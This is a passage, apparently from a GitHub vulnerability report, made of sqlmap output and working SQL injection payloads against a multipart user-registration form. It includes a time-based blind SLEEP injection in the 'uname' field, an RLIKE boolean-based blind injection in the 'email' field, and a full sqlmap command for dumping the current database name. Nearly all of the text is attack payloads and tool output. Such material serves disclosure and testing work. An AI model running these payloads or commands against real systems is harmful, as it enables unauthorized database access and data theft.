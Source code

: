 ```
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin'||(SELECT 0x4d59474e WHERE 7393=7393 AND (SELECT 3657 FROM (SELECT(SLEEP(5)))vDUR))||'
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--
---
```
+ `sqlmap -r request.txt -p email --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: MULTIPART email ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com' RLIKE (SELECT (CASE WHEN (6850=6850) THEN 0x74657374657273696e3840676d61696c2e636f6d ELSE 0x28 END)) AND 'Jpfy'='Jpfy
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"
```